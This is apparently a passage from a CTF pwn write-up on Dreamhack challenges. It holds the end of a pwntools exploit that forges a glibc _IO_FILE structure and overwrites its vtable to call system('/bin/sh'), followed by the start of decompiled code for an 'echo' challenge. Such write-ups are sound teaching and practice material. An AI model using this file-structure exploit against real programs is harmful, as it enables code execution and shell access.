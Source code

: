 system = libc.sym.system
fp = exe.sym.fp

payload = p64(0x0) # flags
payload += p64(0x0) # _IO_read_ptr
payload += p64(0x0) # _IO_read_end
payload += p64(0x0) # _IO_read_base
payload += p64(0x0) # _IO_write_base
payload += p64((int((bin_sh - 100) / 2))) # _IO_write_ptr
payload += p64(0x0) # _IO_write_end
payload += p64(0x0) # _IO_buf_base
payload += p64((int((bin_sh - 100) / 2))) # _IO_buf_end
payload += p64(0x0) # _IO_save_base
payload += p64(0x0) # _IO_backup_base
payload += p64(0x0) # _IO_save_end
payload += p64(0x0) # _IO_marker
payload += p64(0x0) # _IO_chain
payload += p64(0x0) # _fileno
payload += p64(0x0) # _old_offset
payload += p64(0x0)
payload += p64(fp + 0x80) # _lock -> write 가능한 영역을 지정
payload += p64(0x0)*9
payload += p64(fake_vtable) # io_file_jump overwrite
payload += p64(system) # fp->_s._allocate_buffer RIP
p.sendline(payload)

p.interactive()
```





ref :
https://velog.io/@silvergun8291/Dreamhack-Exploit-Tech-Bypass-IOvalidatevtable
https://keyme2003.tistory.com/entry/dreamhack-Bypass-IOvalidatevtable


-----------------



24 . echo
---------


bài này sẽ có 3 lựa chọn 


```

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+24h] [rbp-22Ch] BYREF
  int v5; // [rsp+28h] [rbp-228h]
  int v6; // [rsp+2Ch] [rbp-224h]
  size_t size; // [rsp+30h] [rbp-220h]
  char *buf; // [rsp+38h] [rbp-218h]
  char s[256]; // [rsp+40h] [rbp-210h] BYREF
  char value[264]; // [rsp+140h] [rbp-110h] BYREF
  unsigned __int64 v11; // [rsp+248h] [rbp-8h]
